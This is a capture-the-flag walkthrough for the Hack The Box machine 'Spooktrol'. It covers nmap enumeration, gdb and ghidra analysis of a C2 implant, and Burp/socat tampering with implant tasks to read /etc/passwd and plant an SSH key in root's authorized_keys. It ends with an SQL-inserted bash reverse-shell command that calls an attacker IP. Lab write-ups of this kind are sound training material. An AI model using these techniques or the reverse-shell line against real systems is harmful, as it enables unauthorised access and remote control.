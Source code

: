 # Enumeration

## Nmap

```bash
sudo nmap -sV -sC -oA nmap/spooktrol 10.10.11.123

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ea:84:21:a3:22:4a:7d:f9:b5:25:51:79:83:a4:f5:f2 (RSA)
|   256 b8:39:9e:f4:88:be:aa:01:73:2d:10:fb:44:7f:84:61 (ECDSA)
|_  256 22:21:e9:f4:85:90:87:45:16:1f:73:36:41:ee:3b:32 (ED25519)
80/tcp   open  http    uvicorn
| http-robots.txt: 1 disallowed entry 
|_/file_management/?file=implant
|_http-server-header: uvicorn
|_http-title: Site doesn't have a title (application/json).
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 404 Not Found
|     date: Wed, 27 Oct 2021 07:30:24 GMT
|     server: uvicorn
|     content-length: 22
|     content-type: application/json
|     Connection: close
|     {"detail":"Not Found"}
|   GetRequest: 
|     HTTP/1.1 200 OK
|     date: Wed, 27 Oct 2021 07:30:10 GMT
|     server: uvicorn
|     content-length: 43
|     content-type: application/json
|     Connection: close
|     {"auth":"1f74a681bac81a97711d9316b1da1e68"}
|   HTTPOptions: 
|     HTTP/1.1 405 Method Not Allowed
|     date: Wed, 27 Oct 2021 07:30:17 GMT
|     server: uvicorn
|     content-length: 31
|     content-type: application/json
|     Connection: close
|_    {"detail":"Method Not Allowed"}
2222/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 16:77:76:8a:65:a3:db:23:11:21:66:6e:e4:c3:f2:32 (RSA)
|   256 61:92:eb:7a:a9:14:d7:60:51:00:0c:44:21:a2:61:08 (ECDSA)
|_  256 75:c1:96:9c:69:aa:c8:74:ef:4f:72:bd:62:53:e9:4c (ED25519)

```


Three ports

- 22
- 80
- 2222

Downloading binary from `/file_management/?file=implant` as mentioned in robots.txt


```bash
wget 'http://10.10.11.123/file_management/?file=implant'
```

# Foothold

## Implant

On running the binary hit some error regarding `json`


![](https://github.com/alexanderajju/Hackthebox/blob/master/Spooktrol/Pasted%20image%2020211028162957.png)

![](https://github.com/alexanderajju/Hackthebox/blob/master/Spooktrol/Pasted%20image%2020211028162957.png)



Running wireshark 

![](https://github.com/alexanderajju/Hackthebox/blob/master/Spooktrol/Pasted%20image%2020211028164325.png)

we found the domain and need to add to `/etc/hosts` file.

Analyzing binary in ghidra 

![](https://github.com/alexanderajju/Hackthebox/blob/master/Spooktrol/Pasted%20image%2020211028164739.png)

1st flag

![](https://github.com/alexanderajju/Hackthebox/blob/master/Spooktrol/Pasted%20image%2020211028164912.png)

break at `0x402013` to get 1st flag using `gdb`.

`finish` the function then you will get the flag.

![](https://github.com/alexanderajju/Hackthebox/blob/master/Spooktrol/Pasted%20image%2020211028165356.png)

# User

break at system in upload funtion in case 3

![](https://github.com/alexanderajju/Hackthebox/blob/master/Spooktrol/Pasted%20image%2020211028165651.png)


inorder to acheive case three we can use burpsuite, first we need to interscept at locally the binnary 

change host file as following.

![](https://github.com/alexanderajju/Hackthebox/blob/master/Spooktrol/Pasted%20image%2020211028165920.png)

Then add a second proxy at burp.

![](https://github.com/alexanderajju/Hackthebox/blob/master/Spooktrol/Pasted%20image%2020211028170055.png)

Thirdly use socat to redirect port 8081 to port 80

`sudo socat TCP-LISTEN:80,fork,reuseaddr TCP:127.0.0.1:8081`

next use match and replace to change reponse task1 to task3

![](https://github.com/alexanderajju/Hackthebox/blob/master/Spooktrol/Pasted%20image%2020211028170359.png)

its worked.

```bash

┌[parrot]─[17:03-28/10]─[/home/aju/Hackthebox/machines/spooktrol]
└╼aju$./implant
{"status":0,"id":3,"arg1":"whoami","result":"","target":"1ed93eb3a3e09689276ab2412390db3e","task":3,"arg2":""}
curl: (26) Failed to open/read local data from file/application
{"status":0,"id":3,"arg1":"whoami","result":"","target":"1ed93eb3a3e09689276ab2412390db3e","task":3,"arg2":""}
curl: (26) Failed to open/read local data from file/application


```

It returned as an error beause it is looking for some like we need to find that using gdp. lets break at system.

![](https://github.com/alexanderajju/Hackthebox/blob/master/Spooktrol/Pasted%20image%2020211028184718.png)

On examine at $rdi we can find that it is looking for file `whoami` lets replace that in burpsuite in `match and replace` into `/etc/passwd`


![](https://github.com/alexanderajju/Hackthebox/blob/master/Spooktrol/Pasted%20image%2020211028184924.png)


we got replaced in next attempt.

![](https://github.com/alexanderajju/Hackthebox/blob/master/Spooktrol/Pasted%20image%2020211028185028.png)


![](https://github.com/alexanderajju/Hackthebox/blob/master/Spooktrol/Pasted%20image%2020211028185049.png)
Now lets change `/etc/passwd` to our ssh public key


![](https://github.com/alexanderajju/Hackthebox/blob/master/Spooktrol/Pasted%20image%2020211028185303.png)


upload the public to root's authorized_keys

![](https://github.com/alexanderajju/Hackthebox/blob/master/Spooktrol/Pasted%20image%2020211028185412.png)

# Root

Logged in as root in docker.


![](https://github.com/alexanderajju/Hackthebox/blob/master/Spooktrol/Pasted%20image%2020211028185502.png)

![user](https://github.com/alexanderajju/Hackthebox/blob/master/Spooktrol/Pasted%20image%2020211028185502.png)


insert reverse into database task

`INSERT INTO tasks VALUES(13,'10a6dd5dde6094059db4d23d7710ae12',0,1,'bash -c "bash -i >& /dev/tcp/10.10.14.82/9001 0>&1"','',X'726f6f740a');`

![](https://github.com/alexanderajju/Hackthebox/blob/master/Spooktrol/Pasted%20image%2020211028190236.png)

Got reverse shell as root


![](https://github.com/alexanderajju/Hackthebox/blob/master/Spooktrol/Pasted%20image%2020211028190141.png)

![](https://github.com/alexanderajju/Hackthebox/blob/master/Spooktrol/Pasted%20image%2020211028190141.png)

